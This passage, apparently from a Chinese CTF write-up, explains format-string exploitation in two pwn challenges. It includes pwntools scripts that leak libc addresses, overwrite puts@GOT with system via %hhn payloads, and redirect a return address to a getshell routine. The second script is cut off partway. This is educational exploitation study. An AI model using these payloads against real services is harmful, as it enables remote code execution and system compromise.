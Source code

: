 ```
putsAddress = binascii.hexlify(data[5:9][::-1])
systemOffset = 0x3ad00 # 这是我本地libc的偏移
putsOffset = 0x61ce0
binshOffset = 0x15c7e8
systemAddress = int(putsAddress,16)-putsOffset+systemOffset
binshAddress = int(putsAddress,16)-putsOffset+binshOffset
print "----------2. point puts@got to systemAddress----------"
payload = p32(putsGOT)+"%"+str(256-4)+"x%7$hhn"
put("n", payload)
get("n")
payload = p32(putsGOT+1)+"%"+str(((systemAddress&amp;0x0000FF00)&gt;&gt;8)-4)+"x%7$hhn"
put("i", payload)
get("i")
payload = p32(putsGOT+2)+"%"+str(((systemAddress&amp;0x00FF0000)&gt;&gt;16)-4)+"x%7$hhn"
put("/b", payload)  #四次put的文件名拼接后正好是“/bin/sh”。
get("/b")
p.sendline("dir")
p.interactive()
```

**4.2 三个白帽-来PWN我一下好吗**

本题应该是有多个漏洞多种解法的，利用格式化字符串只是其中一种。程序为64位，在64位下，函数前6个参数依次保存在rdi、rsi、rdx、rcx、r8和r9寄存器中（也就是说，若使用”x$”，当1&lt;=x&lt;=6时，指向的应该依次是上述这6个寄存器中保存的数值），而从第7个参数开始，依然会保存在栈中。故若使用”x$”，则从x=7开始，我们就可以指向栈中数据了。

通过IDA逆向出来的源代码和动态调试，我们知道包含格式化字符串漏洞的脆弱点在0x400B07函数处，那么先来确定可控输入的偏移位置。

[![](./img/85785/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t01b96119075a16e23c.png)

通过%$x测试几次即可知道，输入的用户名偏移是8。有了这个基准位置，就可以考虑往栈上写入数据了，接下来的问题就变成了两件事，即写什么和怎么写。

写什么比较好解决。通过IDA逆向的交叉引用功能，我们在0x4008a6处发现了一段调用system函数的现成getshell代码。这样的话，我们需要做的就是把控制流转向0x4008a6。

[![](./img/85785/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t0162f0fb17fca7f583.png)

下面要解决怎么写的问题了。如下图所示，绿框中的是输入的用户名字符串，其偏移位置是8，则偏移7（第一个红框）处是当前函数0x400b07的返回地址，而偏移15（第二个红框）处是当前函数的上层函数0x400d2b的返回地址。

[![](./img/85785/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t013ecbf14faa076670.png)

我们希望将第一个红框中的0x400d74修改为0x4008a6，这就需要用到%n。在0x400B07函数中，我们可控的输出有两次，分别是输出用户名和输出密码，分别对应了从8-12这5个偏移位置。其中，偏移8-10对应用户名，10-12对应密码，而偏移10由用户名和密码共享，各占4个字节。

对于用户名，输入上图中第一个红框所对应的栈内地址，图中是0x7ffc41428068，但由于每次运行时栈内地址都会发生变化，故需动态获取。

对于密码，输入“%2214x%8$hn”，其中，2214是0x8a6的10进制，而%8$hn表示将前面输出的字符数（即2214）写入偏移8处储存的栈地址所指向空间的低两字节处，即修改0x0d74为0x08a6；若用n，则%2214x需改为%4196518x，即需要输出4196518个字符，开销太大，特别是在远程攻击时，很可能导致连接断掉。

分析到这里，利用代码的流程就清晰了，需要进行三次输入。第一次输入用来获取栈地址，我们通过用户名让printf输出偏移6处保存的栈地址，该栈地址与偏移7所在的栈地址的差值是固定的，即0x38。第二次输入时，我们将用户名设置为偏移7所在的栈地址（即上一步中，减去0x38得到的那个值），将密码设置为“%2214x%8$hn”，即可实现对偏移8处所保存栈地址指向的空间的低两字节的修改，完整利用代码如下。

```
from pwn import *
p = process("./pwnme_k0")
print "-----get stack address-----"
print p.recvuntil("username(max lenth:20): n")
p.send("abcd.%6$lx") 
print p.recvline()
p.sendline("1234")
print p.recvuntil("&gt;")
p.sendline("1")
tmpstackaddress = p.recvline()[:-5][5:]
stackaddress = int(tmpstackaddress,16) - 0x38
print "-----insert formatstring-----"
print p.recvuntil("&gt;")
p.sendline("2")
print p.recvline()
p.sendline(p64(stackaddress))
print p.readline()
```